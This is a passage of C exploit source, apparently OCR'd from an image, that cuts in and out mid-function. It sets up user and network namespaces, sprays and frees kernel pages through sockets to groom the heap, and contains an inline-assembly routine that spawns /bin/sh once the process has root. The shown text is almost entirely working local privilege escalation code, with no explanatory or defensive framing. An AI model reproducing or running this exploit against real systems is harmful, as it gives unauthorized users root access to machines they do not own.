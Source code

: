 ```c
        gid_t gid=getpid();
        int temp;
        char edit[0x100];
        unshare(CLONE_NEWNS|CLONE_NEWUSER|CLONE_NEWNET);     //Create new namespace and get in
        temp = open("/proc/self/setgroups", O_WRONLY);
        write(temp, "deny", strlen("deny"));
        close(temp);
        temp = open("/proc/self/uid_map", O_WRONLY);
        snprintf(edit, sizeof(edit), "0 %d 1", uid);
        write(temp, edit, strlen(edit));
        close(temp);
        temp = open("/proc/self/gid_map", O_WRONLY);
        snprintf(edit, sizeof(edit), "0 %d 1", gid);
        write(temp, edit, strlen(edit));
        close(temp);
        puts("create new namespace");
        struct request req;
        size_t result;
        do{
            read(pipe_child_read[0], &req, sizeof(req));
            if(req.cmd == alloc_page){
                socketfds[req.idx] = alloc_pages_via_sock(4096, 1);
            }else if (req.cmd == free_page){
                close(socketfds[req.idx]);
            }
            result = req.idx;
            write(pipe_parent_read[1], &result, sizeof(result));
        }while(req.cmd != exit_page);
    }
}

int rootfd[2];
char root[] = "root\n";
char throwaway[0x100];
struct timespec timer = {.tv_sec = 1000000000, .tv_nsec = 0};
char binsh[] = "/bin/sh\x00";
char *args[] = {"/bin/sh", NULL};
__attribute__((naked)) void check_and_wait()
{
    asm(
        "lea rax, [rootfd];"
        "mov edi, dword ptr [rax];"
        "lea rsi, [throwaway];"
        "mov rdx, 1;"
        "xor rax, rax;"
        "syscall;"              //read(rootfd, throwaway, 1)
        "mov rax, 102;"         
        "syscall;"              //getuid()
        "cmp rax, 0;"           // not root, goto finish
        "jne finish;"
        "mov rdi, 1;"
        "lea rsi, [root];"
        "mov rdx, 5;"
        "mov rax, 1;"
        "syscall;"              //write(1, root, 5)
        "lea rdi, [binsh];"
        "lea rsi, [args];"
        "xor rdx, rdx;"
        "mov rax, 59;"
        "syscall;"              //execve("/bin/sh", args, 0)
        "finish:"
        "lea rdi, [timer];"
        "xor rsi, rsi;"
```